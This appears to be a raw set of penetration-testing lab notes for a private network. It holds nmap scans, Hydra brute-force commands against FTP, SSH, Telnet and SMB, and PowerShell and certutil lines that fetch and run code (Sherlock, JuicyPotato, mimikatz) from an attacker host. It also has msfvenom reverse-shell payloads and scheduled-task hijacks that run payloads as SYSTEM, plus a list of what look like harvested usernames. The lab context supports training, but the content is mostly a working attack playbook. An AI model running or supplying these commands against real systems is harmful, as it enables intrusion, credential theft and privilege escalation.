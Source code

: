 (checklist)

sudo nmap -sn 192.168.1.0/2
sudo nmap -sn 192.168.1.0/24 |grep "report for" | cut -d " " -f 5 > ip.txt

- sudo nmap -p- -iL ip.txt -oA Port-Scan-TCP
- sudo nmap -sS -sV -p- -iL ip.txt -oA Service-Version-Scan
- sudo nmap -sC -sV -p- -iL ip.txt -oA Default-Version-Scan

Brute Force (Hydra):
FTP:
sudo hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt ftp://192.168.121.143

SSH:
sudo hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt ssh://192.168.121.143

Telnet:
sudo hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt telnet://192.168.121.143

SMB:
sudo hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt smb://192.168.121.143

COMMANDS:
LAB:
Check for Autorun Mechanisms (Windows)
On Windows, certain features can automatically execute files when placed in certain folders. These include:

Startup Folder: Any executable placed in the Startup folder will automatically run when a user logs in.
File System Hooking/Executable File Execution (e.g., via registry): Windows has mechanisms for automatically running executable files in certain directories, especially in shared or "networked" directories.

GuideM{LangSAKALAM.Yccyy}
C:\Users\restam\Desktop>type guidem.txt.txt
type guidem.txt.txt
GuideM{LangSAKALAM.Yccyy}

GET /login HTTP/1.1
Host: 192.168.121.142
Cache-Control: max-age=0
Authorization: Basic Base64(username:password)
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: HFS_SID=0.806552948895842
Connection: close


echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.121.131:8084/Sherlock.ps1') | powershell -noprofile -

windows/x64/meterpreter/reverse_tcp

C:\Windows\System32>wmic service get name,pathname,startmode |findstr /i  /v C:\Windows\\
wmic service get name,pathname,startmode |findstr /i  /v C:\Windows\\
ERROR:
Description = Access denied

HostName:                             PROJECT
TaskName:                             \get and run
Next Run Time:                        N/A
Status:                               Running
Logon Mode:                           Interactive/Background
Last Run Time:                        12/12/2024 1:53:31 AM
Last Result:                          -2147216609
Author:                               COUNT-PROJECT\gerard
Task To Run:                          C:\Users\resty\Documents\getandrun.bat 
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          COUNT-PROJECT\restam
Delete Task If Not Rescheduled:       Enabled

cacls "C:\Users\resty\Documents\getandrun.bat"
C:\Users\resty\Documents\getandrun.bat NT AUTHORITY\SYSTEM:(I)(F)
                                        BUILTIN\Administrators:(I)(F)
                                        COUNT-PROJECT\resty:(I)(F)

daniel-gallego
francisco-andrade
donna-stroupe
ketut-susilo
beth-delow
john-maestro
winona-bran


certutil -urlcache -f http://192.168.121.131:8084/JuicyPotato.exe JuicyPotato.exe

certutil -urlcache -f http://192.168.121.131:8081/mimikatz.exe mimikatz.exe

C:\Users\neil.tran\Desktop\JuicyPotato.exe -ip 192.168.121.143 -cmd "C:\Users\neil.tran\Downloads\potato_reverse_4447.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

runas /user:Administrator C:\Users\neil.tran\Desktop\JuicyPotato.exe -t u -p "C:\Users\neil.tran\Downloads\potato_reverse_4447.exe" -l 4447 -m 192.168.121.143


echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.121.143:8084/Sherlock.ps1') | powershell -noprofile -


accesschk64.exe "INTERACTIVE" -kvuqsw hklm\System\CurrentControlSet\services

potato.exe -ip 192.168.121.142 -cmd “C:\Users\neil.tran\Downloads\reverse.exe”-enable_httpserver true -enable_defender true  -enable_spoof true -enable_exhaust true

accesschk64.exe -uwcv neil.tran *

accesschk64.exe -ucqv neil.tran /accepteula Rejetto

accesschk64.exe -wvu "c:\tools\srvany.exe"

accesschk64.exe -wvu "C:\Users\neil.tran\Documents\getandrun.bat"


accesschk64.exe "Users" -kvuqsw hklm\System\CurrentControlSet\services

accesschk64.exe -uwcv neil.tran *

reverse_payload - 4445
geraint_payload.exe - 4448
priv_payload.exe - 4449

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.121.131 LPORT=4447 -f exe -o payload_restam_4444.exe

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131 lport=4447 -f exe -o payload_restam_4444.exe

echo @echo off > C:\Users\neil.tran\Documents\getandrun.bat
echo start C:\Users\neil.tran\Documents\tran_payload.exe >> C:\Users\neil.tran\Documents\getandrun.bat

C:\Users\neil.tran\Documents\getandrun.bat

schtasks /change /tn "\Microsoft\Windows\Defrag\ScheduledDefrag" /tr "C:\Users\restam\Documents\admin_payload.exe"
schtasks /create /tn "MyReverseShellTask" /tr "C:\Users\restam\Documents\admin_payload.exe" /sc once /st 00:00 /ru SYSTEM

schtasks /change /tn "\Microsoft\Windows\Server Manager\ServerManager" /tr "C:\Users\restam\Documents\admin_payload.exe"
schtasks /create /tn "MyReverseShellTask" /tr "C:\Users\restam\Documents\admin_payload.exe" /sc onlogon /ru "geraint" /f



accesschk64.exe -ucqv geraint /accepteula wuauserv

@echo off
certutil -urlcache -f http://192.168.121.131:8081/payload_neil_4446.exe C:\Users\neil.tran\Documents\payload_neil_4446.exe
C:\Users\neil.tran\Documents\payload_neil_4446.exe



icacls "C:\Microsoft\Windows\Power Efficiency Diagnostics\AnalyzeSystem"




C:\Users\restam\Downloads\accesschk64.exe -wvu "C:\Windows\System32" /accepteula -s
icacls "C:\Windows\System32"
schtasks /query /fo LIST /v
icacls "C:\Users\restam\Documents\getandrun.bat"





